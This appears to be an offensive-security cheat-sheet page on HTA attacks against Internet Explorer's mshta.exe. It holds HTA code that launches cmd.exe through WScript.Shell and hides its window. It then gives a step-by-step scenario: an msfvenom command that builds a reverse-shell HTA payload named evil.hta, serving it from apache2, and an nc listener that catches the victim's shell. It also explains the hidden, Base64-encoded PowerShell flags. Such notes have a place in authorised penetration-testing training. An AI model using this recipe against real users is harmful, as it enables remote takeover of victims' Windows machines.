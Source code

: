 # HTA

#### ️HTA application

> Files with the extension `.hta` are automatically executed by the **Internet Explorer** (IE) browser as HTML application (via **`mshta.exe`**).

We can use `MSFvenom` to generate a HTA malicious application [Link](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#msfvenom)

&#x20;If we visit a URL containing an HTML application, IE will trigger two popups. One that asks us if we want to open or save the file. Another security warning to inform the application will be opened outside the Protected mode.

Example [Windows Script Host Shell object](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99\(v=vs.84\)) opening **calc.exe** via [ActiveXObjects](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Microsoft\_Extensions/ActiveXObject):

```html
<html>
<head>
</head>
<body>
<script>
    var c = 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
<script>
    self.close();
</script>
</body>
</html>
```

The ActiveXObjects provides access to operating system commands through Windows Script Host (WScript). The self.close() function hides the window. An alternative HTA code can be the following:

```markup
<html>
<head>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
	self.close();
</script>
</body>
</html>
```

### HTA Attack Scenario

Create an msfvenom HTA payload using powershell:

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f hta-psh -o /var/www/html/evil.hta
```

Now randomized the string:

```
sudo cat /var/www/html/evil.hta
```

Parameters and Arguments:

* \-nop: is shorthand for -NoProfile, which instructs PowerShell not to load the PowerShell user profile.
* \-w hidden (shorthand for -WindowStyle hidden) to avoid creating a window on the user’s desktop.
* \-e flag (shorthand for -EncodedCommand ) allows us to supply a Base64 encoded PowerShell script directly as a command line argument.

Host your HTA application with apache2, python, or any other web service:

```
sudo systemctl start apache2
```

Set up a listener on your host:

```
nc -lnvp <YOUR_PORT>
```

Wait for the victim to navigate to your HTA application and allow the program to run. Once the program ran on the victim machine, you will receive a reverse shell.
